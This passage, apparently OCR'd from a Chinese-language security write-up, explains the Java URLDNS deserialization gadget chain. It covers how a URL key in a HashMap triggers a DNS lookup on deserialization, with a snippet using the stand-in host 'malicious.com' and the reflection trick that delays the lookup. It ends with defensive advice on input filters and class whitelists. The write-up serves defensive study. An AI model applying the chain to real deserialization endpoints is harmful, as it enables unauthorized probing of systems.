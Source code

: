 5. **URLStreamHandler.getHostAddress(URL u)**
   ```java
   protected InetAddress getHostAddress(URL u) {
       String host = u.getHost();
       if (host == null || host.equals("")) {
           return null;
       } else {
           return InetAddress.getByName(host);  // 实际DNS查询
       }
   }
   ```

## 技术要点深度解析

### 为什么这个链有效？

1. **利用Java序列化机制**
   - HashMap实现了Serializable接口
   - URL也实现了Serializable接口
   - 整个对象图都可以被序列化/反序列化

2. **利用HashMap反序列化行为**
   - HashMap反序列化时会重新计算每个元素的hash值
   - 这是为了确保数据结构的完整性

3. **利用URL的hashCode延迟计算**
   - URL的hashCode在第一次访问时计算
   - 计算过程包含DNS解析操作

### 反射操作的精妙之处

**问题**: 如果直接put URL：
```java
URL url = new URL("http://malicious.com");
map.put(url, 1);  // 立即触发DNS，暴露攻击！
```

**解决方案**: 反射修改内部状态
1. **临时禁用**: `hashCode.set(url, 非-1值)` → put时不触发
2. **恢复启用**: `hashCode.set(url, -1)` → 反序列化时触发

### 攻击特征：
- **低权限要求**: 只需要反序列化操作权限
- **网络流量**: 产生DNS查询记录
- **系统影响**: 几乎为零（只发起DNS查询）

## 防御建议

### 代码层面：
```java
// 使用ObjectInputFilter（JDK9+）
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(filter);

// 或者使用白名单机制
public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> whitelist = Set.of(
        "java.lang.String", "java.lang.Integer", "java.util.ArrayList"
    );
    
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) {
        if (!whitelist.contains(desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization");
```